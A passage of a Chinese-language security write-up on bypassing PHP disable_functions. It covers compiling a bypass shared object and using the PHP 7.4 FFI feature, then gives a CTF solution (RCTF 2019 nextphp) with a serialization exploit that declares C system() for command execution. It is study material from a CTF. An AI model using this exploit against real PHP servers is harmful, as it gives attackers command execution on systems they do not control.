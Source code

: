 编译 C 文件为共享对象文件:

```bash
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so
```

Shell 同劫持 getuid() 的 Shell.php。

## 0x04 PHP 7.4 FFI

`FFI`（Foreign Function Interface），即外部函数接口，允许从用户区调用 C 代码。简单地说，就是一项让你在 PHP 里能够调用 C 代码的技术。

当 PHP 所有的命令执行函数被禁用后，通过 PHP 7.4 的新特性 FFI 可以实现用 PHP 代码调用 C 代码的方式，先声明 C 中的命令执行函数，然后再通过 FFI 变量调用该C 函数即可 Bypass disable_functions。

具体可参考：

Require:

1. `opcache.preload` 启用. (指定将在服务器启动时编译和执行的PHP文件，文件中定义的所有函数和大多数类都将永久加载到 PHP 的函数和类表中，并在将来的任何请求的上下文中永久可用)。

2. `FFI support = enable`。

RCTF 2019 - nextphp 解题思路：

可利用点：

1. Preload 配置已经将 preload.php 预加载到内存中，可直接利用其中的类方法；
2. preload.php 中的 unserialize() 函数会调用 run()，而 run()存在任意函数调用风险；
3. index.php 中 eval 会执行 PHP 代码，会帮助我们执行 preload.php 中的反序列化操作；

攻击思路：

1. 先利用 FFI 特性构造恶意序列化内容，用 PHP 通过 FFI 声明和调用 C 中的 system() 函数；
2. 利用 index.php 中的 eval 来执行反序列化操作；
3. 最后调用 FFI 中声明的 system()函数执行命令；

serialize exp:

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function serialize () {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
}

echo(serialize(new A()));
?>
```
